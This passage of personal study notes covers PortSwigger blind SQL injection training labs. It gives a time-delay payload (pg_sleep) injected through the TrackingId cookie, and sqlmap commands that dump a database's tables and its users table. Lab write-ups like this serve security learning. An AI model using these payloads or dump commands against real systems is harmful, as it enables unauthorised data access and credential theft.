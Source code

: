 ```ad-done
title: Solution
The solution is **extremely long** and it has not been copied, see the reference link.
```

## Blind SQL injection with time delays
Reference: https://acd71f421faa06c4c0601db1008a000e.web-security-academy.net/

```ad-hint
title: Quick Solution
For this lab it is only needed to observe that the DB is vulnerable to SQL injection with time delay, see the solution in the next section.            
```

```ad-done
title: Solution
1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie.
2. Modify the TrackingId cookie, changing it to: 
~~~
TrackingId=x'||pg_sleep(10)--
~~~
3. Submit the request and observe that the application takes 10 seconds to respond.
```

## Blind SQL injection with time delays and information retrieval
Reference: https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval

```ad-hint
title: Quick Solution
As in the previous lab the Database is vulnerable to **SQL Injection with time delays**. We can use the following commands to exploit the lab:

### Enumerate tables
~~~
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 --dump
~~~
### Dump the content of the users table
~~~
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 -T users --dump
~~~
```

```ad-done
title: Solution
The solution is **extremely long** and it has not been copied, see the reference link.
```

## Blind SQL injection with out-of-band interaction
Reference: https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band

```ad-hint
title: Quick Solution
This lab contains a blind SQL Injection vulnerability that has **no effect on the application's response**. For this reason an out-of-band interaction with an external domain must be triggered. I tried to use the ``--dns-domain`` option of ``sqlmap`` but it doesn't seems to work. That's probably because of my machine setup (Burp on WSL2 and sqlmap dockerized). For this lab skip to the solution.
```
